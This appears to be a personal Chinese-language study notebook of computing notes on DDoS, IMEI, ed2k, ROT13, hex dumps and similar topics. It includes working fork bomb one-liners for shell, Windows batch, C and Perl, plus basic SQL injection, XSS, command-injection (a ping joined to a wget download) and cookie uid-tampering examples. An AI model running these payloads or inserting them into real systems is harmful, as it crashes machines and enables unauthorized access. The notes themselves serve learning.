 ### 暴露真实IP会遭到DDos攻击
(DDoS:Distributed Denial of Service)分布式拒绝攻击

Windows 用户“一般被默认授予管理员权限，那意味着他们几乎可以访问系统中的一切”。Linux，反而很好地限制了“root”权限

macos “通过隐匿实现的安全”，这秉承了“让软件内部运作保持专有，从而不为人知是抵御攻击的最好方法”的理念

Windows 的流行本身就是个问题，操作系统的安全性可能很大程度上依赖于装机用户量的规模。对于恶意软件作者来说，Windows 提供了大的施展平台。专注其中可以让他们的努力发挥最大作用。
### 手机IMEI码
在手机拨号处输入"\*#06#"得到手机IMEI码,相当于手机的身份证号码,移动运营商通过IMEI码分辨用户设备，追踪用户地理位置，记录用户拨打电话、发送短信、上网等行为。(可怕)

### python控制浏览器
```
import webbrowser
webbrowser.open('http://baidu.com')
```
### pychram 安装第三方库失败解决方法
`pip install -i https://pypi.tuna.tsinghua.edu.cn/simple some-package`

### ed2k
`ed2k`全称叫“`eDonkey2000 network`”(电驴???)，是一种文件共享网络，最初用于共享音乐、电影和软件。与多数文件共享网络一样，它是分布式的；**文件基于P2P原理存放于用户的电脑上而不是存储于一个中枢服务器**。

`eDonkey`客户端程序连接到这个网络来共享文件。而`eDonkey`服务器作为一个通讯中心，使用户在`ed2k`网络内查找文件。它的客户端和服务端可以工作于`Windows`、`Macintosh`(这是mac..汗颜)、`Linux`、`UNIX`操作系统。**任何人** 都可以作为服务器加入这个网络。由于服务器经常变化，客户端会经常更新它的服务器列表。
`eDonkey`用混合MD4摘要算法检查来识别文件。**这使ed2k网络可以将不同文件名的同一文件成功识别为一个文件，并使同一文件名的不同文件得以区分**(厉害)。`eDonkeyd`的另一特性是：**对大于9.8MB的文件，它在下载完成前将其分割；这将加速大型文件的发送**。为了便于文件搜索，一些Web站点对比较热门的文件建立 ed2k链接 ，这些网站通常也提供热门服务器列表便于用户更新。

### fork boom
fork炸弹（fork bomb）在计算机领域中是一种利用系统调用fork（或其他等效的方式）进行的**拒绝服务攻击**。与病毒与蠕虫不同的是，fork炸弹**没有传染性**，而且fork炸弹会使对**同时执行进程、程序数设限的系统无法执行新程序**，**对于不设限的系统则使之停止响应**。
fork炸弹通过进程递归式派生(fork，亦即自我复制)，以使**系统拒绝服务甚至崩溃**。

fork炸弹以极快的速度创建大量进程（进程数呈以2为底数的指数增长趋势），并以此**消耗系统分配予进程的可用空间使进程表饱和**，而系统在进程表饱和后就无法运行新程序，**除非进程表中的某一进程终止**；但由于fork炸弹程序所创建的所有实例都会不断探测空缺的进程槽并尝试取用以创建新进程，因而即使在某进程终止后也基本不可能运行新进程。fork炸弹生成的子程序在消耗进程表空间的同时也会占用CPU和内存，从而导致系统与现有进程运行速度放缓，响应时间也会随之大幅增加，以致于无法正常完成任务，从而使系统的正常运作受到严重影响。由于现代Unix操作系统普遍采用运用写实拷贝技术，fork炸弹通常不会使进程表饱和。
除了恶意触发fork炸弹破坏的情况外，软件开发中有时也会不慎在程序中嵌入fork炸弹，如在用于监听网络套接字并行使客户端-服务器结构系统中服务器端职责的应用程序中可能需要无限地进行循环（loop）与派生（fork）操作（类似下节示例程序所示），而在这种情况下源代码内的细微错误就可能在测试中“引爆”fork炸弹。
以下程序段就是由Jaromil所作的在类UNIX系统的shell环境下触发fork炸弹的shell脚本代码，总共只用了13个字符（包括空格）：
`:(){ :|:& };:`
注解如下：
>:() # 定义函数,函数名为":",即每当输入":"时就会自动调用{}内代码
{ # ":"函数开始标识
: # 用递归方式调用":"函数本身
| # 并用管道(pipe)将其输出引至...
: # 另一次递归调用的":"函数
综上,":|:"表示的即是每次调用函数":"的时候就会生成两份拷贝
& # 调用间脱钩,以使最初的":"函数被杀死后为其所调用的两个":"函数还能继续执行
} # ":"函数结束标识
; # ":"函数定义结束后将要进行的操作...
: # 调用":"函数,"引爆"fork炸弹
其中函数名“:”只是简化的一例，实际实现时可以随意设定，一个较易理解（将函数名替换为“forkbomb”）的版本如下：
forkbomb(){ forkbomb|forkbomb &} ; forkbomb
(自身调用自身?....理解成死循环好了)

Windows下则可以批处理命令如下实现：
`%0|%0`

POSIX标准下的C与C++的实现：
`#include <unistd.h>int main(){while(1) fork();return0;}`

Perl语言的实现：
`fork while fork`

在系统中成功“引爆”fork炸弹后，我们可重启来使系统恢复正常运行；而若要以手动的方法使fork炸弹“熄火”，那前提就是必须杀死fork炸弹产生的所有进程。为此我们可以考虑使用程序来杀死fork炸弹产生的进程，但由于这一般需要创建新进程，且由于fork炸弹一直在探测与占用进程槽与内存空间，因而这一方法几乎不可能实现，而且用kill命令杀死进程后，释放出的进程槽又会被余下的fork炸弹线程所产生的新进程占用，
在Windows下，用户可以退出当前用户会话的方式使系统恢复正常，但此法奏效的前提是fork炸弹是在该用户的特定会话内触发的

---------------------------------------------
### SQL注入
所谓SQL注入，就是通过把SQL命令插入到Web表单提交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令。
`select * from username = ____ and password=_____`
`select * from username   "test" or ""="" and password="123456"`
### XSS
XSS则是攻击者往Web页面里插入恶意Script代码，当用户浏览该页之时，嵌入Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。
`<p style='color:red'>你好啊，尊敬的______<p>
`
`<p style='color:red'>你好啊，尊敬的 xxx<script>alert(1)</script><p>
`
### 远程命令执行
而远程命令执行，是用户通过浏览器提交执行命令，由于服务器端没有针对执行函数做过滤，导致执行命令。
ping  _______
ping www.baidu.com & wget xxxxxxxxxxx
### 越权
越权漏洞是比较常见的漏洞类型，越权漏洞可以理解为，一个正常的用户A通常只能够对自己的一些信息进行增删改查，但是由于程序员的一时疏忽 ，对信息进行增删改查的时候没有进行一个判断，判断所需要操作的信息是否属于对应的用户，可以导致用户A可以操作其他人的信息。
`Cookie: uid=11426;`
`Cookie: uid=1;`
----------------------------------------------------
### scrapy json中文乱码
可以在setting.py文件中修改默认的输出编码方式，只需要在setting.py中增加如下语句（默认似乎是没有指定的，所以要增加，如果默认有，就直接修改）
`FEED_EXPORT_ENCODING = 'utf-8'`

### rot13
ROT13 ("rotate by 13 places", sometimes hyphenated ROT-13) is a simple letter substitution cipher that **replaces a letter with the 13th letter after it**, in the alphabet. ROT13 is a special case of the Caesar cipher which was developed in ancient Rome.

Because there are 26 letters (2×13) in the basic Latin alphabet, ROT13 is its own inverse; that is, to undo ROT13, the same algorithm is applied, so the same action can be used for encoding and decoding. The algorithm provides virtually no cryptographic security, and is often cited as a canonical example of weak encryption.

ROT13 is used in online forums as a means of hiding spoilers, punchlines, puzzle solutions, and offensive materials from the casual glance. ROT13 has inspired a variety of letter and word games on-line, and is frequently mentioned in newsgroup conversations.

#### 加密:
`tr 'A-Za-z' 'N-ZA-Mn-za-m' <<< "The Quick Brown Fox Jumps Over The Lazy Dog"`
#### 解密:
`echo "The Quick Brown Fox Jumps Over The Lazy Dog" |tr 'N-ZA-Mn-za-m' 'A-Za-z'`

### Hex dump(十六进制转储)
In computing,a hex dump is a hexadecimal view (on screen or paper) of computer data, from RAM or from a file or storage device. Looking at a hex dump of data is commonly done as a part of debugging, or of reverse engineering.

In a hex dump, each byte (8-bits) is represented as a two-digit hexadecimal number.(每个字节==>两个十六进制的数) Hex dumps are commonly organized into rows of 8 or 16 bytes, sometimes separated by whitespaces. Some hex dumps have the hexadecimal memory address at the beginning and/or a checksum byte at the end of each line.

Although the name implies the use of base-16 output, some hex dumping software may have options for base-8 (octal) or base-10 (decimal) output. Some common names for this program function are hexdump, od, xxd and simply dump or even D.

**xxd 得到文件的头 得到的xxd文件要先-r出原来的文件哦**
### 解压方式
gzip -d(gunzip)
tar -zxvf
tar -xvf
bzip2 -d
----------------------------------------------------------
###
###
###
###
###
###
###
###
###
